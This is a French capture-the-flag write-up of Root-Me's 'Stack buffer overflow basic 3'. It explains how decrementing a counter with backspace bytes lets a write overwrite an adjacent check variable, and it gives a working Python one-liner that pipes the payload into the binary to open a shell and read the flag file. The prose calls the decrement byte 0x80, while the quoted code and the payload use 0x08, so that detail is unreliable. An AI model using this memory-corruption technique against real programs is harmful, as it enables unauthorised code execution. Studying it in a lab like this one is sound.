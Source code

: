 ```yaml
---
title: "ELF x86 - Stack buffer overflow basic 3"
description: "Write up Medium"
pubDate: "May 12 2024"
image: /image/image4.jpg
categories:
  - rootme
tags:
  - app-system
  - buffer-overflow
  - stack
---
```


Le but de ce challenge est que check soit égale à 0xbffffabc afin d'ouvrir un shell.

```c
if(check == 0xbffffabc)
        shell();
```

Je ne risque pas de provoquer un débordement de buffer, car dès que count atteint 64, nous entrons dans une boucle infinie avec des messages "Oh no... Sorry !".
Cependant, il est remarquable qu'il est possible de décrémenter count en fournissant au programme un octet 0x80.

```c
 case 0x08:
  count--;
  printf("\b");
  break;
```

De plus, dans le case default, la valeur de i est affectée à buffer[count]:

```c
 default:
  buffer[count] = i;
  count++;
  break;
```

Il est facile de voir la vulnérabilité : si nous parvenons à décrémenter count suffisamment pour que buffer[count] pointe sur check, nous pourrions écrire 0xbffffabc et ainsi prendre le contrôle du shell.
Comme la variable check est juste en dessous de buffer, en ajoutant 4 fois 0x80 (4 fois car sizeof(int) = 4), nous pourrions pointer sur check.

```c
char buffer[64];
  int check;
  int i = 0;
  int count = 0;
```
Je peux donc utiliser la commande ci-dessous pour décrémenter count 4 fois et écrire la séquence d'octets nécessaire pour passer la condition de check, en n'oubliant pas de terminer par ;cat pour maintenir le shell ouvert.

```python
  $ (python -c 'print"\x08"*4+"\xbc\xfa\xff\xbf"';cat)|./ch16
```
Ainsi, je peux afficher le contenu de .passwd et récupérer le flag.
